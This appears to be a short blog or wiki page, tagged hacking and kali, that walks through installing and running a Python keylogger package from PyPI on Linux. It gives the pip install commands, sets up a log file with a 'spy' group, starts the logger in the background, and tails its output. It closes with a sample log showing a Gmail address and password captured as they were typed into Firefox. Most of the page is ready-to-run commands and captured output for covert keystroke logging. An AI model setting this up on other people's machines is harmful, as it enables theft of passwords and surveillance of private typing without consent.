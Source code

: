 ```yaml
---
title: Python keylogger
categories:
    - hacking
    - kali
---
```


## Python keylogger package

The job is already done and packaged with [that Python package](https://pypi.org/project/keylogger/).

## Installation

### Python 3 

This package works with Python 3, make sure you are using it:
  
    python --version

If python2 is set by default:
    
    sudo apt-get install python3-pip
    
### Package    
    
    pip install keylogger

If python2 is set by default:

    sudo -E pip3 install keylogger

## Set up log file

    sudo touch /var/log/keylogger.log

## Group & ownership for log file

    sudo groupadd spy
    sudo usermod -a -G spy vagrant    
    sudo chown root:spy /var/log/keylogger.log
    sudo chmod 660 /var/log/keylogger.log
            
## Usage
        
    /home/vagrant/.local/bin/keylogger --log-file /var/log/keylogger.log --clean-file &
    
## Watch log

    tail -f /var/log/keylogger.log 

Below the log generated by typing in firefox: `gmail.com` ang logging with `thisismymail@gmail.com`/`mypassword`: 

    g
    m
    a
    i
    l
    Shift_L
    period
    c
    o
    m
    Return
    t
    h
    i
    s
    i
    s
    m
    y
    m
    a
    i
    l
    Shift_L
    Shift_L
    Shift_L
    [65027]
    agrave
    g
    m
    a
    i
    l
    Shift_L
    period
    c
    o
    m
    m
    y
    p
    a
    s
    s
    w
    o
    r
    d
    
